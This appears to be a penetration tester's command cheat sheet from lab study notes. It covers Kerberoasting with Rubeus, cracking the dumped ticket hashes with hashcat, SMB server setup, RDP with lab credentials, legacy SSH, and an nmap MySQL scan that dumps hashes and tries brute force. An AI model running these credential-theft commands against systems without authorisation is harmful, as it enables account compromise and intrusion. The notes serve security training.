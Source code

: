 ### Kerberoasting w/ Rubeus
`Rubeus.exe kerberoast /outfile:hashes.txt` 

### Hashcat cracking krbtg5
`hashcat -m 13100 --force -a 0 hashes.txt /usr/share/wordlists/rockyou.txt` 

`hashcat --show hashes.txt` 

### Compile C# File
`[DIRECTORY_TO_.NET]\csc.exe [.CS_FILE]`
`EX: C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe test.cs`

## Compile .java to Class
`javac -source [VERSION_OF_.JAVA_FILE] -target [DESIRED_VERSION_OF_.CLASS_FILE] [.JAVA_FILE]`
`EX:  javac -source 1.8 -target 1.8 test.java`

## Build Java Manifest
`mkdir META-INF; echo "Main-Class: [JAVA_CLASS]" > META-INF/MANIFEST.MF`
`EX: mkdir META-INF; echo "Main-Class: test" > META-INF/MANIFEST.MF`

## Create JAR File
`jar cmvf META-INF/MANIFEST.MF [JAR_FILE] [CLASS_FILE]`
`EX: jar cmvf META-INF/MANIFEST.MF test.jar test.class`

## Start SMB Server
`smbserer.py [SHARE_NAME] [SHARE_PATH]`
`smbserver.py test .`

## RDP to Machine
`xfreerdp +nego +sec-rdp +sec-tls +sec-nla /d: /u: /p: /v:[MACHINE_NAME] /u:[USERNAME] /p:[PASSWORD] /size:1180x708`
`EX: xfreerdp +nego +sec-rdp +sec-tls +sec-nla /d: /u: /p: /v:manageengine /u:administrator /p:studentlab /size:1800x900`

## SSH using specific algorithm
`ssh -o KexAlgorithms=[ALGORITHM] [USERNAME]@[SERVER]`
`EX: ssh -o KexAlgorithms=diffie-hellman-group1-sha1 atmail@atmail`
USE CASE:
    - $ ssh atmail@atmail -> Unable to negotiate with 192.168.132.106 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1

## mysql scripts and brute force
`nmap -sV -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 192.168.52.88`
